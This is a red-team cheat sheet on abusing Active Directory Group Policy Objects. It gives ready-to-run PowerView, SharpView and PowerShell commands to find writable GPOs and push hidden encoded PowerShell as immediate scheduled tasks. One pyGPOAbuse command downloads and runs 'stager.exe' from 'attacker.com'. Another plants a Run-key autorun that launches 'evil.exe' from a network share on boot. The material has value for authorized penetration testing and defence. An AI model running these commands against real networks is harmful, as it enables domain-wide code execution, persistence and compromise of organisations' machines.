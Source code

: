 ```yaml
---
description: Group Policy Objects
---
```


# GPO Abuse

- [https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)
- [https://wald0.com/?p=179](https://wald0.com/?p=179)
- [https://github.com/EvotecIT/GPOZaurr](https://github.com/EvotecIT/GPOZaurr)
- [https://xakep.ru/2023/02/01/exploiting-gpo/](https://xakep.ru/2023/02/01/exploiting-gpo/)
- [https://www.pentestpartners.com/security-blog/living-off-the-land-gpo-style/](https://www.pentestpartners.com/security-blog/living-off-the-land-gpo-style/)

Force GPO update on all domain computers:

```
PS > Get-ADComputer -Filter * | % {Invoke-GPUpdate -Computer $_.name -Force -RandomDelayInMinutes 0}
```




## Hunt for GPOs

List all GPOs in the domain:

```
PS > .\SharpView.exe Get-DomainGPO -Properties displayName
```

List GPOs applied to a specifiec domain user or computer:

```
PS > .\SharpView.exe Get-DomainGPO -UserIdentity snovvcrash -Properties DisplayName
PS > .\SharpView.exe Get-DomainGPO -ComputerIdentity WS01 -Properties DisplayName
Or
Cmd > gpresult /r /user snovvcrash [/h gpos-snovvcrash.html]
Cmd > gpresult /r /s WS01 [/h gpos-ws01.html]
```

Search for writable GPOs for the `Domain Users` security group:

```
PV3 > Get-DomainGPO | Get-ObjectAcl | ? {$_.SecurityIdentifier -eq ((Get-DomainGroup "Domain Users" | select objectSid).objectSid)}
PV3 > Get-DomainGPO '{<GPO_GUID>}'
Or
PS > Get-GPO -Guid <GPO_GUID>
```




## Permissions Abuse



### Recon

Show all GPOs in the domain:

```
PV3 > Get-NetGPO -Domain megacorp.local | select cn,displayname
```

Search for GPOs that are controlled by the `MEGACORP\PolicyAdmins` group:

```
PV3 > Get-NetGPO | % {Get-ObjectAcl -ResolveGUIDs -Name $_.Name} | ? {$_.IdentityReference -eq "MEGACORP\PolicyAdmins"}
```

List computers that are affected by vulnerable (modifiable) GPO:

```
PV3 > Get-NetOU -GUID "00ff00ff-00ff-00ff-00ff-00ff00ff00ff" | % {Get-NetComputer -ADsPath $_}
```

Note: if I list all OUs affected by this GPO with PowerView, there will be no domain shown (like in BloodHound), but in Group Policy Manager we can see that it is presented.

Check if computer settings are enabled for this GPO (and enable them if not):

- [https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801](https://gist.github.com/snovvcrash/ecdc639b061fe787617d8d92d8549801)

```
PS > Get-Gpo VULN.GPO.NAME
PS > Set-GpoStatus VULN.GPO.NAME -Status AllSettingsEnabled
```

List users that can create a GPO and link it to a specific OU:

```
PV3 > Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=megacorp,DC=local" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" -and $_.ActiveDirectoryRights -match "CreateChild" } | select objectDN,securityIdentifier | fl
PV3 > Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select objectDN,securityIdentifier | fl
```



### Immediate Scheduled Tasks


#### GPOImmediateTask

- [PowerView3.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/26a0757612e5654b4f792b012ab8f10f95d391c9/Recon/PowerView.ps1#L5907-L6122) [(New-GPOImmediateTask)](https://www.harmj0y.net/blog/redteaming/abusing-gpo-permissions/)

Create a task with a PowerShell payload:

```
$ echo 'sc -path "c:\\windows\\temp\\poc.txt" -value "GPO Abuse PoC..."' | iconv -t UTF-16LE | base64 -w0; echo
cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=
PS > New-GPOImmediateTask -TaskName Pentest -GPODisplayName VULN.GPO.NAME -CommandArguments '-NoP -NonI -W Hidden -Enc cwBjACAALQBwAGEAdABoACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABlAG0AcABcAHAAbwBjAC4AdAB4AHQAIgAgAC0AdgBhAGwAdQBlACAAIgBHAFAATwAgAEEAYgB1AHMAZQAgAFAAbwBDAC4ALgAuACIACgA=' -Force
```

Clean up:

```
PS > New-GPOImmediateTask -GPODisplayName VULN.GPO.NAME -Remove -Force
```

Check when GP was last applied:

```
Cmd > GPRESULT /R
```


#### GPOwned + pyGPOAbuse

- [https://github.com/X-C3LL/GPOwned](https://github.com/X-C3LL/GPOwned)
- [https://github.com/Hackndo/pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)

Get target GPO ID:

```
$ python3 GPOwned.py -u snovvcrash -p 'Passw0rd!' -d megacorp.local -dc-ip 192.168.1.11 -gpcmachine -listgpo
```

Create an immediate scheduled task:

```
$ python3 pygpoabuse.py megacorp.local/snovvcrash:'Passw0rd!' -gpo-id <GPO_ID> -dc-ip 192.168.1.11 -v -command -powershell '(New-Object Net.WebClient).DownloadFile("https://attacker.com/stager.exe", "C:\Windows\Temp\stager.exe"); if ($?) {C:\Windows\Temp\stager.exe}'
```



### GPPrefRegistryValue

Check if GPMC is installed and if it's not, install it as a Windows Feature (requires elevation):

```
PS > Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
PS > Install-WindowsFeature –Name GPMC
```

Create an evil GPO and link it to the target OU (will be visible in the management console):

```
PS > New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=megacorp,DC=local"
```

Locate a writable network share:

```
PV3 > Find-DomainShare -CheckShareAccess
```

Prepare your payload, put it to the network share and create an autorun value in the evil GPO to run the payload on boot/logon:

```
PS > Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "%COMSPEC% /b /c start /b /min /c \\srv01\SoftwareShare\evil.exe" -Type ExpandString
```




## WMI Filters

- [https://rastamouse.me/ous-and-gpos-and-wmi-filters-oh-my/](https://rastamouse.me/ous-and-gpos-and-wmi-filters-oh-my/)




## GPO Abuse via NTLM Relay

- [https://www.synacktiv.com/publications/gpoddity-exploiting-active-directory-gpos-through-ntlm-relaying-and-more](https://www.synacktiv.com/publications/gpoddity-exploiting-active-directory-gpos-through-ntlm-relaying-and-more)
- [https://github.com/synacktiv/GPOddity](https://github.com/synacktiv/GPOddity)




## Tools

- [https://github.com/FSecureLABS/SharpGPOAbuse](https://github.com/FSecureLABS/SharpGPOAbuse)
- [https://github.com/cogiceo/GPOHound](https://github.com/cogiceo/GPOHound)
